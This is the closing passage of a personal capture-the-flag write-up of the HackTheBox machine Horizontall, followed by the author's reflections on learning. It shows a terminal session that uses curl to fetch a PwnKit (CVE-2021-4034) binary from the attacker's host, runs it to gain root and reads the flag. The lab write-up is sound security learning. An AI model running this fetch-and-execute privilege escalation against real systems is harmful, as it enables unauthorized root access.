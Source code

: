 Seeing the PwnKit exploit pop-up made me smile. I was listening to [SANS Internet Stormcenter Podcast](https://open.spotify.com/show/6oeUmMwv1AQpdYNHmOE4A0) a few days ago and heard about a new `pollkit` exploit (`"PwnKit"` [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)) floating around, making pretty much every single Linux machine vulnerable since 2009. This makes a lot of the CTF machines vulnerable to something other than what was likely intended by its designer. I pondered on looking for the 'intended' exploit, but I had spent a considerable amount of time just getting to this point, I knew that getting root access otherwise would take me equally as long if the journey there was as involved as getting the initial foothold. I decided that an exploit is an exploit and just went with the PwnKit route.

### PwnKit & System Flag

Applying the exploit was trivial. `LES` had even given me a download link. And just like with `LES`, I `curl`'d myself the exploit onto the remote machine and ran it. The exploit zoomed by extremely quickly, and I was now `root`. I went and snatched the system flag. And that's it for Horizontall.

```bash
strapi@horizontall:~$ curl 10.10.14.130:8080/pwnkit -o pwnkit
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 14688  100 14688    0     0   103k      0 --:--:-- --:--:-- --:--:--  103k
strapi@horizontall:~$ chmod +x pwnkit 
strapi@horizontall:~$ ./pwnkit 
root@horizontall:/opt/strapi# id
uid=0(root) gid=0(root) groups=0(root),1001(strapi)
root@horizontall:/opt/strapi# whoami
root
root@horizontall:/opt/strapi# cd ~
root@horizontall:~# ls
boot.sh  pid  restart.sh  root.txt
root@horizontall:~# cat root.txt 
ed9440c3385bdec9f943c2cc3c0af71e
root@horizontall:~# 
```

***NOTE:*** If you would like to read the 'intended' or 'proper' way of the gaining `root` access, involving a Laravel Debug Mode RCE, I strongly recommend [0xdf's writeup of Horizontall](https://0xdf.gitlab.io/2022/02/05/htb-horizontall.html).

## Outro

And that's that. In the future, I will probably go through HackTheBox's 'Starting Point' set of machines. I planned on doing so from the start, but I wanted to try my hand at one of the 'Easy' boxes rather than going for the 'Very Easy' ones, to give myself a sort of reality check and to better gauge how much knowledge and understanding I have right now.

Whilst doing this box, not counting the PwnKit exploit, I feel like I went the hard way about it. There were faster, less conspicuous and smarter way to achieve the same result. The `api-prod` subdomain was hidden in one of the minified `.js` files of the landing page, for example, thus avoiding the lengthy brute-forcing of subdomains.

I was pretty easily led astray by various red herrings, like the file upload plugin on the admin dashboard or after seeing the version of the SSH service. However, I'm still a beginner, so I believe noticing these things sooner requires time and experience.

All in all, I feel like I have many areas to improve in, but at the same time, I'm glad I didn't got completely stumped by one of the slightly more challenging boxes. :)